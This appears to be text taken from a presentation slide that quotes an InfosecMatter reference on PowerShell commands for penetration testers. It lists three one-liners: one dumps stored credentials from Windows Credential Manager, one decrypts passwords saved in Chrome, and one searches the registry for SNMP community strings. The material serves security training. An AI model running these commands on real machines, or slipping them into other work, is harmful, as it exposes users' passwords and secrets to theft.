

Get-StoredCredential | % { write-host -NoNewLine $_.username; write-host -NoNewLine ":" ; $p = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($_.password) ; [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($p); } : Used to get stored passwords from Windows Credential Manager
[System.Text.Encoding]::UTF8.GetString([System.Security.Cryptography.ProtectedData]::Unprotect($datarow.password_value,$null,[System.Security.Cryptography.DataProtectionScope]::CurrentUser)) : Used to get stored passwords from Chrome browser
gci HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse -EA SilentlyContinue : Used to search for SNMP community strings in the registry
# Being mischievous! (PS for pentesters)
PowerShell Commands for Pentesters - InfosecMatter